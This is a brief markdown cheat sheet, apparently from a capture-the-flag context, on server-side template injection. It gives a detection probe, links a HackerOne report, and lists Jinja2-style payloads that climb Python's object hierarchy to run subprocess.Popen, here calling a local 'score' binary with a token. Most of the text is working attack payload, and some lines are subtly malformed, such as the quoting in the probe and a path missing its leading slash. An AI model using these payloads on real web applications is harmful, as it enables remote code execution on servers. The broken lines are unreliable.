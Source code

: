 # SSTI

Server Side Template Injection - ```{{'7*'7}}```.  See https://hackerone.com/reports/125980 for an example.

So accessing `http://example.com/{{'7*'7}}` might give you an error like this: `Page not Found: http://example.com/7777777`

```
{{''.__class__.mro()[1].__subclasses__()[2](subprocess.Popen(["usr/local/bin/score", "b1fca3c7-443e-4923-b598-a95b41e94b65"]))}}

{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}}
{{''.__class__.mro()[1].__subclasses__()[2](COMMAND)}}
{{''.__class__.mro()[1].__subclasses__()[2](subprocess.Popen(["/usr/local/bin/score", "b1fca3c7-443e-4923-b598-a95b41e94b65"]))}}

subprocess.Popen(["/usr/local/bin/score", "b1fca3c7-443e-4923-b598-a95b41e94b65"])
```